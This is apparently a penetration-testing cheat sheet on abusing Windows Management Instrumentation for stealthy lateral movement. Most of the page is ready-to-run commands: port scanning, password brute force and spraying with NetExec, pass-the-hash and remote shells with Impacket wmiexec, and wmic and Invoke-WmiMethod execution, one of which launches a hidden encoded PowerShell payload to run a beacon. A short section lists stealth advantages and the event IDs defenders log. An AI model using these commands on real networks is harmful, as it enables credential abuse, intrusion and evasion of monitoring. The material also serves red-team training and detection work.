

**Windows Management Instrumentation (WMI)** is a core Windows management framework that allows administrators to query system info, execute scripts, and control the OS through a consistent interface. Attackers abuse WMI heavily for stealthy Lateral Movement because it operates entirely in memory (fileless) without dropping executables to disk or creating visible services like PsExec.

**Process Name:** `WmiPrvSE.exe`

<Callout type="info" title="MITRE ATT&CK Mapping">
[T1047 - Windows Management Instrumentation](https://attack.mitre.org/techniques/T1047/)
</Callout>




---

## Architecture & Reconnaissance

<Callout type="info" title="WMI Protocol Details">
WMI relies on DCOM (Distributed Component Object Model) over **TCP port 135** and a range of dynamic high TCP ports (typically 49152-65535) for subsequent communication.
</Callout>

**Nmap Scan:**
```bash
# Scan for MSRPC (Port 135) which hosts WMI
nmap -sV -sS -p 135 x.x.x.x

# Enumerate DCOM/WMI interfaces
nmap -p 135 --script msrpc-enum x.x.x.x
```

---

## NetExec (nxc) for WMI

<Callout type="success" title="Using NetExec for WMI Exploitation">
NetExec supports the WMI protocol. This is extremely useful when SMB (port 445) is blocked by the firewall, but MSRPC (port 135) is open.
</Callout>

<Tabs>
  <Tab title="Brute Force / Password Spraying">
    ```bash
    # Brute force using a password list
    nxc wmi x.x.x.x -u administrator -p /usr/share/wordlists/unix_passwords.txt

    # Password spray across a subnet
    nxc wmi 192.168.1.0/24 -u users.txt -p 'Fall2023!' --continue-on-success
    ```
  </Tab>
  <Tab title="Remote Command Execution">
    ```bash
    # Execute CMD commands (-x)
    nxc wmi x.x.x.x -u administrator -p 'pass123' -x 'whoami'

    # Execute PowerShell commands (-X)
    nxc wmi x.x.x.x -u administrator -p 'pass123' -X 'Get-Process'
    ```
  </Tab>
  <Tab title="Pass-the-Hash (PtH) via WMI">
    ```bash
    # Authenticate using NTLM hash and execute a command
    nxc wmi x.x.x.x -u administrator -H 00000000000000000000000000000000:NTLM_HASH -x 'ipconfig'
    ```
  </Tab>
</Tabs>

---

## Impacket (wmiexec.py) - The Hacker's Choice

<Callout type="danger" title="Remote Shell via wmiexec.py">
`wmiexec.py` is the preferred Impacket tool for stealthy lateral movement. Unlike PsExec, it does NOT drop a binary to `ADMIN$` or create a Windows Service. It executes commands over DCOM, leaving a much smaller footprint on disk.
</Callout>

<Tabs>
  <Tab title="Using Plaintext Password">
    ```bash
    impacket-wmiexec username:password@x.x.x.x
    ```
  </Tab>
  <Tab title="Pass-the-Hash (PtH) with PowerShell Shell">
    ```bash
    # Syntax: username@IP -hashes LMHash:NTHash
    wmiexec.py administrator@x.x.x.x -hashes aad3b435b51404eeaad3b435b51404ee:NTLM_HASH --shell-type powershell
    ```
  </Tab>
</Tabs>

---

## Native "Living Off The Land" Execution

<Callout type="warning" title="Native WMI Commands (wmic & PowerShell)">
If you cannot transfer Impacket to the victim machine, you can use built-in Windows utilities to move laterally using WMI.
</Callout>

<Tabs>
  <Tab title="Method 1: WMIC (Command Prompt)">
    *Executes a process on a remote machine without dropping into an interactive shell.*
    ```cmd
    wmic /node:"x.x.x.x" /user:"administrator" /password:"pass123" process call create "cmd.exe /c whoami > C:\Windows\Temp\out.txt"
    ```
  </Tab>
  <Tab title="Method 2: PowerShell (Invoke-WmiMethod)">
    *The modern, object-oriented way to execute remote WMI calls.*
    ```powershell
    # 1. Create a PSCredential object
    $cred = Get-Credential domain\username

    # 2. Execute a process remotely (e.g., download and run a beacon)
    Invoke-WmiMethod -ComputerName x.x.x.x -Credential $cred -Class Win32_Process -Name Create -ArgumentList "powershell.exe -nop -w hidden -enc <BASE64_PAYLOAD>"
    ```
  </Tab>
</Tabs>

---

## OPSEC & Detection (Why use WMI?)

<Callout type="danger" title="Operational Security (OPSEC) & Detection">
* **Stealth:** WMI executions are much stealthier than PsExec or SMBExec. They don't create Windows Services (Event ID 7045) or drop executables to the `ADMIN$` share.
* **Event Logs:** Successful WMI logons generate **Event ID 4624 (Type 3 - Network Logon)** and **Event ID 4672 (Special Privileges Logon)** on the target.
* **Detection:** EDRs that monitor WMI activity deeply will look for suspicious `Win32_Process::Create` methods originating from remote IPs.
</Callout>
